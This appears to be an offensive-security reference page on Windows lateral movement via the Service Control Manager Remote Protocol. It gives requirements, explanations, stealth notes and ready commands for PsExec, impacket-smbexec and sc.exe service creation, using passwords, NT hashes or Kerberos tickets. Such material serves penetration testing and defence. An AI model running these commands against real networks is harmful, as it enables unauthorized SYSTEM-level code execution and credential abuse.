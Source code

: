 ```yaml
---
label: MS-SCMR
subLabel: (PsExec, SmbExec, ScExec)
---
```


# MS-SCMR (Service Control Manager Remote Protocol) for Lateral Movement

> **Requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * Read-write SMB share access.
> * Remote SCM RPC interface enabled the target machine (always by default).
> * SMB share enabled on the target machine (always by default but 445/TCP might be filtered on firewall).

## Description

Through the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) (RPC) protocol, Windows allows remote communication with another machine's [Service Control Manager](https://learn.microsoft.com/pl-pl/windows/win32/services/service-control-manager) (SCM). This protocol is invoked using a named pipe `ntsvcs` via SMB `IPC$` share.

It allows, among other things, remote startup of services. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for techniques like PsExec and SmbExec. PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB share of the target host (445/TCP).

By default, using service execution techniques a user needs to be a **local administrator** on the target machine to remotely interact with SCM via RPC. Windows services executed by the local administrator by default run in the context of **SYSTEM user**. Logon via MS-SCMR (RPC call) is of the **Network type** (no reusable credentials).

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have read-write access to at least one SMB share. Without remote SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $hostname -k -no-pass -dc-ip $dc_ip
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the writable SMB share on the target host. Then, SCM is called remotely (via named pipe) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read the output. Two-way communication is established via SMB.

> **Caveats**:
>
> * A generic binary is often detected by AV.
> * PsExec leaves artifacts behind on SMB share that require manual cleaning. The uploaded binary is not automatically removed.

## SmbExec

Linux:

```bash
# Using password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $hostname -k -no-pass -dc-ip $dc_ip

# Debug mode (shows every executed `binPath` command)
impacket-smbexec [...] -debug
```

Unlike PsExec, SmbExec doesn't transfer a detectable binary to the target host. Instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via named pipe) with each new command. It executes the command in the `binPath` parameter of the service and closes the service. It just executes each desired command as a new service. Output is read via SMB share. There is no leftover on disk.

SmbExec is stealthier alternative to easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

> **Caveats**
>
> * Each command run by SmbExec is a separate service. Therefore, there is no real session. Loading modules in PowerShell makes no sense. You have to load and call the module in a single command.
> * There's no `cd` command. Again - there's no real session.

## Raw Service Execution (ScExec)

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

Linux (`impacket-services` is basically a Linux port of native `sc.exe`):

```bash
# Using password
impacket-services $domain/$user:$password@$host [action]

# Using NT hash
impacket-services -hashes :$nt_hash $domain/$user@$host [action]

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-services $hostname -k -no-pass -dc-ip $dc_ip [action]

# Actions
list -h
create -h
start -h
stop -h
delete -h
```

Windows:

> **IMPORTANT**: Watch out for spaces in arguments. They are necessary!

```powershell
# Create and start service
sc.exe \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc.exe \\$host start $svc_name

# Stop and delete service
sc.exe \\$host stop $svc_name
sc.exe \\$host delete $svc_name
```

{/*TODO: How to provide credentials to `sc.exe`.*/}

## References

* [Rift, *SMBExec: Red Side Analysis*](https://rift.stacktitan.com/smbexec/)
* [Boitatech, *SmbExec/ScExec*](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
* [Ryan Hausknecht, *Offensive Lateral Movement*](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f)
